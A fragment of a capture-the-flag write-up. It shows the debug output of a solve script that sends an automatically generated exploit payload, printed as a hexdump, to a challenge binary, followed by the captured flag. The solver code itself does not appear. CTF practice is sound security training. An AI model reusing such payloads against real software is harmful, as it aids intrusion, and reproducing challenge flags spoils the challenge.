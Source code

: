 The first time I ran it failed on the 6th case due to
`claripy.errors.UnsatError: CompositeSolver is already unsat`, so I just ran it
again it gave me the flag!

```
$ python3 solve.py
...
b'[+] Wrote payload to bins/9.exp\n'
[DEBUG] Sent 0x42 bytes:
    00000000  40 10 04 80  34 88 02 40  04 04 40 01  10 02 08 02  │@···│4··@│··@·│····│
    00000010  20 20 08 10  40 80 40 01  01 20 c2 10  10 02 40 20  │  ··│@·@·│· ··│··@ │
    00000020  40 01 80 02  20 80 02 80  40 80 08 04  01 80 08 20  │@···│ ···│@···│··· │
    00000030  08 10 01 20  08 02 02 08  20 40 04 00  00 f5 00 00  │··· │····│ @··│····│
    00000040  0a 0a                                               │··│
    00000042
[DEBUG] Received 0x2e bytes:
    b'Process exited with return code 100\n'
    b'Congrats!\n'
[*] Switching to interactive mode
Congrats!
[DEBUG] Received 0x27 bytes:
    b'utflag{exploit_machine_goes_brrrrrrrr}\n'
utflag{exploit_machine_goes_brrrrrrrr}
[*] Got EOF while reading in interactive
$
```

What a cool challenge :)
